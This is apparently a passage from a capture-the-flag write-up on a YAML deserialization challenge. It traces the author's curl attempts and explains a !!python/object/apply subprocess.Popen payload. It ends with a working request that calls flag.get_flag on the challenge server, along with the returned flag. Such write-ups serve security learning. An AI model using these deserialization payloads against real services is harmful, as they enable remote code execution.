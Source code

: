 
```
curl -X POST -d 'config="""\n!!python/object:web.Whale\nname:TheBestWhaleIsAWhaleEveryOneLikes\nimage_num:2\nweight:34"""' http://127.0.0.1:5000/wheel
curl -X POST -d 'config="""\n!!python/object:web.Whale\nname:TheBestWhaleIsAWhaleEveryOneLikes\nimage_num:2\nweight:34"""' http://127.0.0.1:5000/wheel
curl -X POST -d 'config="""\n!!python/object:web.Whale\nname: TheBestWhaleIsAWhaleEveryOneLikes\nimage_num: 2\nweight: 34"""' http://127.0.0.1:5000/wheel
curl -X POST -d 'config=\"\"\"%0A%21%21python/object:web.Whale%0Aname: TheBestWhaleIsAWhaleEveryOneLikes%0Aimage_num: 2%0Aweight: 34%0A\"\"\"' http://127.0.0.1:5000/wheel
curl -X POST -d 'config=\"\"\"%0A%21%21python/object:web.Whale%0A%20name%3A%20TheBestWhaleIsAWhaleEveryOneLikes%0A%20image_num:%202%0A%20weight:%2034%0A\"\"\"' http://127.0.0.1:5000/wheel
```

## Closer to the solution

I stumbled on [YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter). I learned that it was possible to launch process that way:

`"""!!python/object/apply:subprocess:Popen
- ls"""`

I struggled with the formatting and it didn't work.


I tried again with a non-serialized syntax: `!!python/object/apply:builtins.range [1, 10, 1]` and it worked better, except it refused to create a range, because it was expecting a mapping.


## Solution

Then, after a while (and lots of despair), I realized that even if I managed to create my Easter Whale, it wouldn't help me very much, because how would I then get the flag? The flag would only be displayed if I *posted* such a whale on the `/whale` page. So, I thought: how about simply calling `get_flag()`.

I concentrated on this goal:

- We need the `!!python/object/apply` syntax
- Function `get_flag()` is in the `flag` module, so I'll need to call `flag.get_flag`

After a few attempts, it was still complaining that it was expecting a mapping for the Wheel object.
So, I got the idea to put that `!!python/object` stuff inside a field of the Wheel object.

`{name: !!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}`

We don't care at all about `image_num` and `diameter` (but must provide them to create the Wheel).

Finally, I worked out the final solution with some URL encoding:

```
curl -X POST -d 'config={name:%20!!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}' http://chal.cybersecurityrumble.de:7780/wheel

[..]

<h1>Here you go</h1>
<h1>CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}</h1>
Diameter: 5
<code>
diameter: 5
image_num: 2
name: CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}
[..]
```

Despite "easy", I learned a lot with this challenge and enjoyed it. I had no idea about this YAML exploit, and will be certain to be cautious if I ever need to use it in the future.

